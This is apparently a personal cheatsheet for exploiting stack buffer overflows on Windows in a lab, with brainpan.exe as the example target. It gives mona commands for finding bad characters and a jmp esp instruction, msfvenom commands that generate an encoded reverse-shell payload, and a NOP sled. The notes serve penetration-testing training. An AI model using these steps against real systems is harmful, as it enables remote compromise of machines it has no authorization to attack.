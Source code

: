 ```yaml
---
title: "Buffer Overflow Cheatsheet"
date: 2021-12-01T00:20:30+01:00
categories:
  - Resources
tags:
  - Bufferoverflows
  - Cheatsheet
share: false
#layout: single
classes: wide
---
```


### Get control of EIP
First, lets use some [skeletons](https://github.com/acc3ssp0int-official/buffer-overflow-skeleton-scripts) to overwrite the EIP  

Then, let's generate a pattern to identify the offset  
`Todo: complete msfpatterncreate command and msfpatternfind`


### After getting control of EIP
Set a **working folder**  
`!mona config -set workingfolder C:\Users\shroudri\%p`

Generate bytearray  
`!mona bytearray`

Generate bytearray excluding a certain badchar\
```
!mona bytearray -cpb "\x00"
!mona bytearray -cpb "\x00\x0a\etc"
```


Compare ESP with generated bytearray to check for badchars automatically  
`!mona compare -f C:\Users\shroudri\%p\bytearray.bin -a <ESP_ADRESS> #(e.g 00F23930)`

Generate revshell with msfvenom  
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00" EXITFUNC=thread`  
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00\x0a\xaf" EXITFUNC=thread`  


List all available programs        
`!mona modules`

### Next step: We want to make EIP point to ESP
This command will find an instruction within a program to jump to the ESP (FFE4 == jmp_esp)   
`!mona find -s "\xFF\xE4" -m brainpan.exe`

Because shikata_ga_nai is being used, a few NOPs must be introduced between EIP and Shellcode   
`NOPS= "x90"*16`